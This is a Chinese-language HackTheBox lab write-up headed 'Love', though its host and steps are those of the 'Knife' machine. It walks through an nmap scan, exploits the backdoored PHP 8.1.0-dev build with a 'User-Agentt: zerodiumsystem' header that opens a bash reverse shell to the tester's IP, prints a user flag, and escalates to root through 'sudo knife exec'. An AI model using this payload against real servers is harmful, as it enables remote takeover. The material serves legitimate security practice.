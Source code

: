 # HackTheBox Love

  
  
&lt;!--more--&gt;  
使用`nmap`进行扫描  
```bash  
sudo nmap --min-rate 10000 -sS -Pn -sV 10.129.211.145  
  
Nmap scan report for 10.129.211.145  
Host is up (0.15s latency).  
Not shown: 997 closed tcp ports (reset)  
PORT   STATE    SERVICE VERSION  
22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)  
53/tcp filtered domain  
80/tcp open     http    Apache httpd 2.4.41 ((Ubuntu))  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 9.76 seconds  
```  
开启了`22`端口和`80`端口，访问`80`端口  
在其返回包看到`PHP`版本信息  
```http  
HTTP/1.1 200 OK  
Date: Sat, 13 Apr 2024 10:07:00 GMT  
Server: Apache/2.4.41 (Ubuntu)  
X-Powered-By: PHP/8.1.0-dev  
Vary: Accept-Encoding  
Content-Length: 5815  
Connection: close  
Content-Type: text/html; charset=UTF-8  
```  
此版本是存在后门，可以直接进行`RCE`  
直接反弹一个`shell`到本地  
`User-Agentt:zerodiumsystem(&#34;/bin/bash -c &#39;bash -i &gt;&amp; /dev/tcp/10.10.16.4/8888 0&gt;&amp;1&#39;&#34;);`  
获得`user.txt`的`flag`  
```bash  
james@knife:~$ cat user.txt  
cat user.txt  
8f76f62dae4f23ad7c61094fff67a86d  
```  
继续进行提权  
`sudo -l`进行查看`james`用户的权限  
```bash  
Matching Defaults entries for james on knife:  
    env_reset, mail_badpass,  
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
  
User james may run the following commands on knife:  
    (root) NOPASSWD: /usr/bin/knife  
```  
可以无需密码以`root`权限执行`/usr/bin/knife`命令  
利用`python`获取一个交互式`shell`  
`python3 -c &#34;__import__(&#39;pty&#39;).spawn(&#39;/bin/bash&#39;)&#34;`  
利用`knife`进行提权  
`sudo /usr/bin/knife exec -E &#39;exec &#34;/bin/sh&#34;&#39;`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404131823505.png)
  
  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/hackthebox-love/  

